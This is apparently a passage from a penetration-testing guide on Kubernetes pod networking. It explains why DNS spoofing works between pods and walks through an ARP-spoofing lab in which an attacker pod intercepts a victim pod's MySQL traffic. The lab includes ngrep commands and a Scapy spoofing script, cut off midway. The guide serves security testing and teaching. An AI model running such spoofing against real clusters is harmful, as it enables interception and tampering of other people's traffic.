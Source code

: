 However, the pod **doesn't know** how to get to that **address** because the **pod range** in this case is 172.17.0.10/26.

Therefore, the pod will send the **DNS requests to the address 10.96.0.10** which will be **translated** by the cbr0 **to** **172.17.0.2**.

> [!WARNING]
> This means that a **DNS request** of a pod is **always** going to go the **bridge** to **translate** the **service IP to the endpoint IP**, even if the DNS server is in the same subnetwork as the pod.
>
> Knowing this, and knowing **ARP attacks are possible**, a **pod** in a node is going to be able to **intercept the traffic** between **each pod** in the **subnetwork** and the **bridge** and **modify** the **DNS responses** from the DNS server (**DNS Spoofing**).
>
> Moreover, if the **DNS server** is in the **same node as the attacker**, the attacker can **intercept all the DNS request** of any pod in the cluster (between the DNS server and the bridge) and modify the responses.

## ARP Spoofing in pods in the same Node

Our goal is to **steal at least the communication from the ubuntu-victim to the mysql**.

### Scapy

```bash
python3 /tmp/arp_spoof.py
Enter Target IP:172.17.0.10 #ubuntu-victim
Enter Gateway IP:172.17.0.9 #mysql
Target MAC 02:42:ac:11:00:0a
Gateway MAC: 02:42:ac:11:00:09
Sending spoofed ARP responses

# Get another shell
kubectl exec -it ubuntu-attack -- bash
ngrep -d eth0

# Login from ubuntu-victim and mysql and check the unencrypted communication
# interacting with the mysql instance
```

```python:arp_spoof.py
#From https://gist.github.com/rbn15/bc054f9a84489dbdfc35d333e3d63c87#file-arpspoofer-py
from scapy.all import *

def getmac(targetip):
	arppacket= Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
	targetmac= srp(arppacket, timeout=2 , verbose= False)[0][0][1].hwsrc
	return targetmac

def spoofarpcache(targetip, targetmac, sourceip):
	spoofed= ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
	send(spoofed, verbose= False)

def restorearp(targetip, targetmac, sourceip, sourcemac):
	packet= ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
	send(packet, verbose=False)
	print("ARP Table restored to normal for", targetip)

def main():
	targetip= input("Enter Target IP:")
	gatewayip= input("Enter Gateway IP:")

	try:
		targetmac= getmac(targetip)
```
